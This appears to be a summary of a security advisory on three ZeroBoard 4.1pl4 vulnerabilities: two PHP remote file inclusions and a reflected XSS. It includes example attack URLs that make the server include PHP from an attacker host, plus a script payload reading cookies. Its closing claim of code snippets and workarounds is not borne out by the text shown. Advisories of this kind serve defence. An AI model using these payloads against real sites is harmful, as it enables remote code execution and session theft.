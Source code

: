 The provided content is a security advisory detailing multiple vulnerabilities in ZeroBoard 4.1pl4 and prior. The advisory describes three distinct vulnerabilities, with the first two relating to PHP source injection and the third a Cross-Site Scripting (XSS) vulnerability.

**Vulnerability 1: PHP Source Injection**

*   **Root Cause:** The `outlogin.php` script uses `file_exists()` with a user-controlled parameter `_zb_path` without proper sanitization. Due to PHP's URL wrapper functionality, this allows an attacker to include remote files via protocols like `ftp://`.
*   **Weakness:** Lack of input validation on the `_zb_path` parameter in `outlogin.php`, specifically not sanitizing for URL wrappers.
*   **Impact:** Arbitrary command execution with the privileges of the HTTPD process by including malicious PHP code from a remote server.
*   **Attack Vector:**  Sending a crafted HTTP request to `outlogin.php` with the `_zb_path` parameter set to a URL pointing to an attacker-controlled PHP file (e.g. `http://[victim]/outlogin.php?_zb_path=ftp://[attacker]/pub/`).
*   **Required Attacker Capabilities:**
    *   Ability to send HTTP requests to the vulnerable server.
    *   Ability to host a malicious PHP file on a publicly accessible server via `ftp://` or other similar wrappers.
    * `register_globals` must be turned on in the php.ini file.

**Vulnerability 2: PHP Source Injection**

*   **Root Cause:** The `include/write.php` script uses an uninitialized `$dir` variable within an `include` statement, making it controllable by user input.
*   **Weakness:** Lack of initialization of `$dir` variable in `include/write.php`, leading to remote file inclusion.
*   **Impact:** Arbitrary command execution with the privileges of the HTTPD process by including malicious PHP code from a remote server.
*   **Attack Vector:** Sending a crafted HTTP request to `include/write.php` with the `dir` parameter set to a URL pointing to an attacker-controlled PHP file (e.g. `http://[victim]/include/write.php?dir=http://[attacker]/`).
*    **Required Attacker Capabilities:**
    *   Ability to send HTTP requests to the vulnerable server.
    *   Ability to host a malicious PHP file on a publicly accessible server.
    * `register_globals` must be turned on in the php.ini file.

**Vulnerability 3: Cross-Site Scripting (XSS)**

*   **Root Cause:** The `check_user_id.php` script does not validate the input value of `user_id` before echoing it back to the user.
*   **Weakness:** Lack of input sanitization on the `user_id` parameter in `check_user_id.php`.
*   **Impact:** Arbitrary JavaScript execution within the context of the victim's browser, potentially leading to session hijacking, cookie theft, and other malicious activities.
*   **Attack Vector:** Sending a crafted HTTP request to `check_user_id.php` with the `user_id` parameter containing malicious JavaScript (e.g., `http://[victim]/check_user_id.php?user_id=<script>alert(document.cookie)</script>`).
*   **Required Attacker Capabilities:** Ability to send HTTP requests to the vulnerable server and inject malicious javascript code through the user_id parameter.

This advisory provides more details than a typical CVE description. It includes proof-of-concept URLs, vulnerable code snippets, and recommended workarounds.